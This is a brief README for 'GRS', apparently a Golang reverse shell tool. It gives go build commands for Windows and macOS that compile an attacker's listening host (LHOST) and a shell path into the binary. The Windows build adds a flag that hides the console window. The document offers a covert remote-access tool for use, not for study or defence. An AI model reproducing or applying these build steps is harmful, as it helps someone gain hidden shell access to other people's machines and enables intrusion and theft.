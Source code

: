 # GRS
### A Golang reverse shell


#### To build:

Windows:
    $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"

Darwin:
    $ go build -ldflags "-X 'main.host=LHOST' -X 'main.shellPath=shell path'" "darwin/GRS.go"
